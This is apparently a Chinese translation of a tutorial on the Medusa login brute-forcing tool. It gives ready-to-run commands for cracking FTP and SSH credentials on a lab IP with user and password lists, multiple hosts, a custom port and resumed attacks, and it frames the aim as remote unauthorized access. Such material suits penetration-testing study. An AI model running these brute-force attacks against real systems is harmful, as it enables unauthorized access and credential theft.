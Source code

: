 ## medusa综合指南 [^1]

- Introduction to Medusa and its features
  - Medusa是一个快速，并行，模块化的登录暴力破解工具。目标是支持尽可能多的允许远程身份验证的服务。作者将以下项目视为此应用程序的一些主要功能：
    - 基于线程的并行测试。可以同时对多个主机，用户或密码执行暴力测试。
    - 灵活的用户输入。可以通过多种方式指定目标信息（主机/用户/密码）。例如，每个项目可以是单个条目，也可以是包含多个条目的文件。此外，组合文件格式允许用户优化其目标列表。
    - 模块化设计。每个服务模块都作为独立的.mod文件存在。这意味着不需要对核心应用程序进行任何修改，以扩展支持的强制服务列表。
    - 支持多种协议。目前支持许多服务（例如SMB，HTTP，POP3，MS-SQL，SSHv2等）
  - **语法：** Medusa [-h host | -H file] [-u username | -U file] [-p password | -P file] [-C file] -M module [OPT]
  - `medusa -d`
- Password Cracking For Specific Username
  - `medusa -h 192.168.1.108 -u raj -P pass.txt -M ftp`
- Username Cracking for Specific Password
  - `medusa -h 192.168.1.108 -U user.txt -p 123 -M ftp`
- Cracking Login Credential
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp`
- Making Brute Force Attack on Multiple Host
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp`
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -T 1` [^2]
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -T 2` [^3]
- Attacking on Specific Port Instead of Default
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ssh`
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ssh -n 2222`
- NULL/Same as Login Attempt
  - `medusa -h 192.168.1.108 -u raj -P pass.txt -M ftp -e ns` [^4]
- Save logs to Disk
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -O log.txt` [^5]
- Stop on Success
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -f` [^6]
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -F `[^7]
- Suppress Startup Banner
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -b` [^8]
- Verbose Mode
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -v 1` [^9]
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -v 2`
  - `medusa -H hosts.txt -U user.txt -P pass.txt -M ftp -v 6`
- Error Debugging Mode
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -w 01` [^10]
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -w 06`
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -w 07`
- Using Combo Entries
  - `medusa -M ftp -C userpass.txt` [^11]
- Resuming the Brute Force Attack
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp` [^12]
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -Z h1u2u3. `[^13]
  - `medusa -h 192.168.1.108 -U user.txt -P pass.txt -M ftp -Z h1u3u4.` [^14]

[原文](https://www.hackingarticles.in/comprehensive-guide-on-medusa-a-brute-forcing-tool/)

---

[^1]: 今天我们将讨论 - Medusa在破解各种协议的登录凭证方面有多大影响，以便远程未经授权地访问系统。在本文中，我们讨论了Medusa中可用的各种选项，以便在各种场景中进行暴力攻击。
[^2]: 如果您的主机列表中有多个主机IP，并且您希望仅对少数主机进行强力攻击，则使用**-T选项**同时测试要测试的主机总数。
[^3]: 从下面给出的情况可以看出，第一个命令对单个主机IP进行暴力攻击，而在第二个命令中，它同时对两个主机IP进行暴力攻击
[^4]: Using option **-e along with ns** enables three parameters **n**ull/**s**ame as login while making brute force attack on the password field.
[^5]: 出于记录维护，更好的可读性和未来参考的目的，我们将Medusa强力攻击的输出保存到文件中。为此，我们将使用 Medusa 的**参数-O**将输出保存在文本文件中。
[^6]: 假设在使用主机列表时，您希望在找到第一个有效的用户名/密码后停止对主机的暴力攻击，那么您可以单独使用**-f选项**和命令。
[^7]: 即使您在命令中的任何主机上找到第一个有效的用户名/密码后，也可以使用**-F选项**来停止审核
[^8]: 如果你想在进行暴力攻击时隐藏美杜莎的横幅，那么使用**-b选项**来抑制启动横幅。
[^9]: **详细模式**详细模式有六个级别来检查攻击详细信息，还包含一个错误调试选项，其中包含调试模式的十个级别。您可以对verbose参数使用**-v选项**，对错误调试参数使用**-w选项**
[^10]: **错误调试模式**如上所述，在每个级别检查蛮力攻击的级别为0-10，在这里你将观察到0-6的结果是大约。同样几乎没有差别，7-10级的结果是大约。同样但从0-6级别变化。调试模式显示等待时间，套接字，发送数据大小和接收的数据大小，模块详细信息和路径。
[^11]: **使用组合条目**使用**-C选项**启用组合文件参数，组合文件应该每行有一个记录，并以冒号分隔的格式为**host_IP：username：password**。如果三个字段中的任何一个留空，则相应的信息应作为全局值或作为文件中的列表传递。
[^12]: **恢复蛮力攻击**有时候在进行强力攻击时，攻击会暂时停止/停止或意外取消以节省您的时间，您可以使用**-z选项**启用resume参数并继续从最后一次删除的字典尝试中强制执行而不是启动它从第一次尝试。
[^13]: 您可以观察下面给定图像的输出结果，在按下ctrl C之后它会停止攻击，然后在命令中添加突出显示的文本以恢复攻击并继续它。
[^14]: 重复上面的操作，现在比较执行所有三个命令后的结果，你会发现它继续从最后一次删除尝试中强制执行